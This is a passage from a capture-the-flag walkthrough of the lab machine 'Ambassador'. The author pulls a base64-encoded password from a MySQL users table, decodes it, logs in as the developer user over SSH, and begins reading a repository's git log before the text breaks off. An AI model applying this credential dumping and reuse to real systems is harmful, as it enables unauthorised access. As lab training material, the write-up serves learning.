 ```
1 row in set (0.066 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.066 sec)
```
so I echoed the password and piped the output to base64 decode command and
```
karim@alpacino:~/Downloads$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```
so I logged in using ssh using username developer and password **anEnglishManInNewYork027468** and now I am developer user on the system
```
karim@alpacino:~/Downloads$ ssh developer@ambassador.htb 
The authenticity of host 'ambassador.htb (10.10.11.183)' can't be established.
ED25519 key fingerprint is SHA256:zXkkXkOCX9Wg6pcH1yaG4zCZd5J25Co9TrlNWyChdZk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ambassador.htb' (ED25519) to the list of known hosts.
developer@ambassador.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Jan 2023 09:50:07 PM UTC

  System load:           0.06
  Usage of /:            81.2% of 5.07GB
  Memory usage:          50%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.183
  IPv6 address for eth0: dead:beef::250:56ff:feb9:46f6


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jan 24 18:55:52 2023 from 10.10.16.60
developer@ambassador:~$ 
```
and I was able to read user.txt file.
Then I went to the opt directory and found my-app dirctory so went to it and ran the command git log
```
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

```